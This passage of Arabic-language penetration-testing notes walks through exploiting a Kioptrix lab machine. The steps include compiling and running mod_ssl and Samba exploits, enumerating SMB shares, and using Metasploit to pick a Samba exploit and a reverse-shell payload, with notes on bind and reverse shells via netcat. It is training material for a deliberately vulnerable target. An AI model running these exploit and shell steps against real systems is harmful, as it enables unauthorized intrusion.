- `-m` = mirror (نسخ نسخة محلية من الملف)
- هيتنقل الملف  `c.21671`  إلى المجلد اللي انت واقف فيه حاليًا.
تقدر تكمبّله:

> [!code]
> gcc 47080.c -o modssl -lcrypto


> [!bug] Atack
>  ./modssl 0x6b 192.168.1.2 443 -c 45

`modssl`  ---------> ملف الثغرة بعد ما نزل واتعمله كومبيلر بالاسم دا  
 `./modssl` ------->  ` 47080.c`   تشغيل السكريبت بعد ما كمبّلته من 
`0x6b`  ------------> في تعيمات الملف Version  ده معرف الشيل كود بتاعت ال 
`192.168.1.2`-----> ip الجهاز الي رايحله
`443` --------------> Port Service  == HTTPS
`-c 45` ------------> (connections) ده غالبًا عدد الاتصالات المتزامنة 


> [!NOTE] smbclient:
> 
هي أداة سطر أوامر (CLI tool) تابعة لـ **Samba**، تتيح لك التفاعل مع **مشاركات الملفات عبر بروتوكول SMB (Server Message Block)**، زي كأنك بتستخدم FTP أو SSH.
> تشبه إلى حد كبير FTP client، لكن لبروتوكول SMB.


> [!code] 
> 	smbclient -L //192.168.1.2/ADMIN$

- `-L`: لعرض قائمة الشيرز (shared folders)


 . 📁 **أوامر التفاعل داخل `smbclient`** (بعد ما تدخل عليه)
زي أوامر FTP:

| الأمر            | الوظيفة                       |
| ---------------- | ----------------------------- |
| `ls`             | عرض الملفات                   |
| `cd folder`      | الدخول لمجلد معين             |
| `get file.txt`   | تحميل ملف                     |
| `put file.txt`   | رفع ملف                       |
| `lcd /path`      | تغيير المجلد المحلي على جهازك |
| `exit` أو `quit` | الخروج من الجلسة              |
| smbclient        | معلومات ومنها الاصدار         |

- `smbclient`   تظهرلي اصدار samba وبعدها ابحث هنها 
	


- ثم كومبيلر
	

> [!code] 
> 	gcc 10.c -o smbexploit

- ثم Run الملف smbexploit
	
> [!code] 
> 	./smbexploit
	
هيقولك ازاي ترن الملف صح Usage
`Usage: ./smbexploit    -Opsion        host `



***Exploit باستخدام smbexploit***

> [!code] 
> 	./smbexploit -b 0   192.168.1.2

`-b ` platform ==== OS ====
`0 in -b`  =  Linux
 
	
**Done** 

***
***
***


#### 🔍 Metasploit Framework

##### 📦 ما هو Metasploit ؟

> [!NOTE] Metasploit
>  بيئة متكاملة تشمل أدوات وموارد لاختبار الثغرات، ويتكون من عدة أجزاء:

| المكون                | الشرح                                                             |
| --------------------- | ----------------------------------------------------------------- |
| **Exploits**          | كود يستغل ثغرة في النظام.                                         |
| **Auxiliary Modules** | أدوات مساعدة زي فحص الشبكات أو brute-force.                       |
| **Payloads**          | الكود اللي بيشتغل بعد استغلال الثغرة (زي reverse shell).          |
| **Encoders**          | تشفير الـ payload عشان يتجاوز الـ Antivirus.                      |
| **Post Modules**      | أدوات بتشتغل بعد الدخول على الهدف لجمع المعلومات أو التحرك داخله. |


> [!code]  
> 	msfconsole
	
يفتح الواجهة الرئيسية لـ Metasploit CLI.

]
 ***أهم الأوامر داخل `msfconsole`***

| الأمر              | الوظيفة                                |
| ------------------ | -------------------------------------- |
| `search`           | للبحث عن ثغرات أو أدوات                |
| `use`              | استخدام وحدة معينة (exploit أو أداة)   |
| `show options`     | عرض الخيارات المطلوبة للوحدة المستخدمة |
| `set`              | تعيين قيمة لخيار معين (زي IP أو port)  |
| `exploit` أو `run` | تنفيذ الهجوم                           |
| type:              | تحدد النوع exploit , auxiliary ,....   |


	
> [!code]
> 	search "smb version" type:auxiliary
	
في طريقتين للاستخدام  (exploit أو أداة)
- use + المسار 
- use + الرقم الي ع الشمال = اربعة ف الصورة فوق 



	
- `show options` ------>  لعرض الخيارت الي محتاجينها وهل `واخده قيمة؟ ` وهل `مطلوبة؟`  
- `set`  ------>  تعيين قيمة لخيار معين (زي IP أو port)
	

	
- بعد معمل `Run` ظهرلي الـ `Version` اقدر ابحث بيه عن `Exploit`  ليه
	


`search "Samba 2.2.1a" type:exploit` مطلعش حاجة ف شوف اصدار اكبر بحيث اكبر الاحتمالات
	
`search "Samba 2.2" type:exploit`  Exploits  ثم حددنا النوع
	
 هاخد رقم 2 عشان نظام التشغيل لينكس
 

> [!code] 
> 	use 2
> 	options
	

	

> [!code] 
> 	set rhosts 192.1618.1.2 ----> this is ip Kioptrix
	
لو عملت `Run` مش عيشغل معاك ولا هياخد `shll` ؟ 
عشان `Payload options` مش واخده `Payload` وممكن تكون واخده `Payload` مش مناسب


***


***Payload***    ---> (زي reverse shell)  الكود اللي بيشتغل بعد استغلال الثغرة 

 🧨 الفرق بين **Staged** و **Non-Staged** Payloads في Metasploit:

| النوع          | الاسم الكامل                | المعنى                  | مثال                              |
| -------------- | --------------------------- | ----------------------- | --------------------------------- |
| **Staged**     | Staged Payload              | حمولة على مرحلتين       | `windows/meterpreter/reverse_tcp` |
| **Non-Staged** | Non-staged (Single) Payload | حمولة كاملة في ملف واحد | `windows/meterpreter_reverse_t`   |
بعد اسم النظام ونوعة بيكون الفرق 

 - الـ Staged بيبقا في `/` ف النص 
 - اما Non لا بتبقا غالبا `_` 


🧠 إمتى تستخدم كل واحد؟

| الحالة                              | أنسب نوع   |
| ----------------------------------- | ---------- |
| عايز تتخفى من الانتي فيروس          | Staged     |
| الشبكة فيها مشاكل أو الاتصال بيتقطع | Non-staged |
| عايز Meterpreter بمرونة كاملة       | Staged     |
| عايز Shell مباشر بأمر واحد          | Non-       |

***الطريقة الي هاخد بيها shell***
	
 1. Bind

انا بتصل ع port  و  ip  الـ Target و الـ Target بيستمع ودا بيتعمل ف كود payload لو في firewall مش هتنفع
	
 `-lvp`
  `l` --->  بتخلي البورت ف حالة الاستماع                                       |   
  `v` ---> عشان لو حد دخل يقولي اهه في حد عمل اتصال               |    
  `p` --->  لتحديد البورت                                                                |    >     in   payload
  `-e` -->  `/bin/sh`  الي ف  shell  عشان ياخد                               |     


 2. Reverse
 
هنا العكس انا بستمع والـ Target هو الي هيعمل اتصال connecting عليا    طبعا بـ payload


***

***نرجع نكمل*** 
	نضيف `payloads` المناسبة طبعا في العادية لـ shell و  Staged و Non_Staged 

`show payloads`   --->   payloads   هيعرض كل      


> [!code] 
> 		set payload 34    ----->  payload/linux/x86/shell_reverse_tcp  
	
`options`
	

`run`
	

	***Done***


